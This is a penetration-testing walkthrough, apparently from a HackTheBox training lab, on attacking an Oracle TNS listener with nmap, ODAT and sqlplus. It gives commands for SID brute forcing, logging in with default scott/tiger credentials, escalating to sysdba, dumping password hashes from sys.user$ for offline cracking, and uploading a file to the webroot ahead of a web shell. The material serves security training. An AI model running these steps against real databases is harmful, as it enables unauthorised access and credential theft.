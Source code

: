Before we can enumerate the TNS listener and interact with it, we need to download a few packages and tools for our Pwnbox instance in case it does not have these already. Here is a Bash script that does all of that:
```
#!/bin/bash 

sudo apt-get install libaio1 python3-dev alien -y 
git clone https://github.com/quentinhardy/odat.git 
cd odat/ 
git submodule init git submodule update wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip 
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip 
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip 
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH 
export PATH=$LD_LIBRARY_PATH:$PATH 
pip3 install cx_Oracle 
sudo apt-get install python3-scapy -y 
sudo pip3 install colorlog termcolor pycrypto passlib python-libnmap 
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```
After that, we can try to determine if the installation was successful by running the following command:
```
./odat.py -h
```
Oracle Database Attacking Tool (ODAT) is an open-source penetration testing tool written in Python and designed to enumerate and exploit vulnerabilities in Oracle databases. It can be used to identify and exploit various security flaws in Oracle databases, including SQL injection, remote code execution, and privilege escalation.
# Footprinting
nmap to scan the default Oracle TNS listener port
```
sudo nmap -p1521 -sV 10.129.204.235 --open
```
```
Service oracle-tns
```
```
Version Oracle TNS listenener
```
We can see that the port is open, and the service is running

In Oracle RDBMS, a System Identifier (SID) is a unique name that identifies a particular database instance. It can have multiple instances, each with its own System ID. An instance is a set of processes and memory structures that interact to manage the database's data. When a client connects to an Oracle database, it specifies the database's SID along with its connection string. The client uses this SID to identify which database instance it wants to connect to. Suppose the client does not specify a SID. Then, the default value defined in the tnsnames.ora file is used.

The SIDs are an essential part of the connection process, as it identifies the specific instance of the database the client wants to connect to. If the client specifies an incorrect SID, the connection attempt will fail. Database administrators can use the SID to monitor and manage the individual instances of a database. For example, they can start, stop, or restart an instance, adjust its memory allocation or other configuration parameters, and monitor its performance using tools like Oracle Enterprise Manager.
There are various ways to enumerate, or better said, guess SIDs. Therefore we can use tools like `nmap, hydra, odat`, and others. Let us use `nmap` first.
## nmap - SID Bruteforcing
```
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```
## odat
use the odat.py tool to perform a variety of scans to enumerate and gather information about the Oracle database services and its components.
```
./odat.py all -s 10.129.204.235
```
**In this example, we found valid credentials for the user scott and his password tiger. After that, we can use the tool sqlplus to connect to the Oracle database and interact with it**: 
### SQLplus
```
sqlplus scott/tiger@10.129.204.235/XE
```
### Oracle RDBMS - Interaction
```
SQL> select * from user_role_privs;
```
Here, the user scott has no administrative privileges. However, we can try using this account to log in as the System Database Admin (sysdba), giving us higher privileges. This is possible when the user scott has the appropriate privileges typically granted by the database administrator or used by the administrator him/herself.
```
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```
From this point, we could retrieve the password hashes from the sys.user$ and try to crack them offline. The query for this would look like the following:
```
SQL> select name, password from sys.user$;
```
If you come across the following error sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory, please execute the below, taken from here.
```
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```
## Webshell
Another option is to upload a web shell to the target. However, this requires the server to run a web server, and we need to know the exact location of the root directory for the webserver. Nevertheless, if we know what type of system we are dealing with, we can try the default paths, which are:
- OS Path
- Linux /var/www/html
- Windows C:\inetpub\wwwroot
First, trying our exploitation approach with files that do not look dangerous for Antivirus or Intrusion detection/prevention systems is always important. Therefore, we create a text file with a string and use it to upload to the target system.
### Oracle RDBMS - File Upload
```
echo "Oracle File Upload Test" > testing.txt
```
```
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```
Test the uploaded file
```
curl -X GET http://ip/testing.txt
```
https://benheater.com/hackthebox-silo/